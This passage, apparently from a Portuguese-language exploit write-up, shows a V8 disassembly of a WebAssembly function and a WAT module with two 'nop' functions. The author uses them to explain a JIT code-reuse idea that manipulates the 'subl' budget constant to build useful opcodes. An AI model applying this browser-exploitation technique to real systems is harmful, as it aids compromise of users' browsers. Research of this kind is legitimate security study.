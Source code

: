 ```nasm
0x1c6675a9752    12  483b20               REX.W cmpq rsp,[rax]
0x1c6675a9755    15  0f8619000000         jna 0x1c6675a9774  <+0x34>
0x1c6675a975b    1b  488b868f000000       REX.W movq rax,[rsi+0x8f]
0x1c6675a9762    22  8b08                 movl rcx,[rax]
0x1c6675a9764    24  83e91b               subl rcx,0x1b
0x1c6675a9767    27  0f8812000000         js 0x1c6675a977f  <+0x3f>
0x1c6675a976d    2d  8908                 movl [rax],rcx
0x1c6675a976f    2f  488be5               REX.W movq rsp,rbp
0x1c6675a9772    32  5d                   pop rbp
0x1c6675a9773    33  c3                   retl
0x1c6675a9774    34  e867fbffff           call 0x1c6675a92e0  (jump table)
0x1c6675a9779    39  488b75f0             REX.W movq rsi,[rbp-0x10]
0x1c6675a977d    3d  ebdc                 jmp 0x1c6675a975b  <+0x1b>
0x1c6675a977f    3f  e8dcf9ffff           call 0x1c6675a9160  (jump table)
0x1c6675a9784    44  488b75f0             REX.W movq rsi,[rbp-0x10]
0x1c6675a9788    48  ebe5                 jmp 0x1c6675a976f  <+0x2f>
0x1c6675a978a    4a  6690                 nop

Source positions:
 pc offset  position
        34         0  statement
        3f         2  statement

Safepoints (entries = 1, byte size = 10)
0x1c6675a9779     39  slots (sp->fp): 00000000

RelocInfo (size = 0)

--- End code ---
```

Durante os testes eu não consegui achar uma forma de usar o valor `0x1b` para criar outros opcodes uteis, então tive uma outra ideia, o valor do `subl` muda dependendo da versão do v8 e das interações que o código tem com a *stack*. O objetivo será gerar duas funcões de "nop", uma com o `budget_used` maior que o outro, e usar a primeira função para subtrair da segunda o valor do seu `subl`, exemplificando melhor:

```wasm
(module
  (memory 1)
  (func $nop (export "nop")
    i32.const 1
    i32.const 0xdead
    i32.store
  )

  (func (export "nop2")
    nop
    i32.const 0
    i32.const 0xdead
    i32.store
    i32.const 1
    i32.const 0xdead
    i32.store
  )
)
```

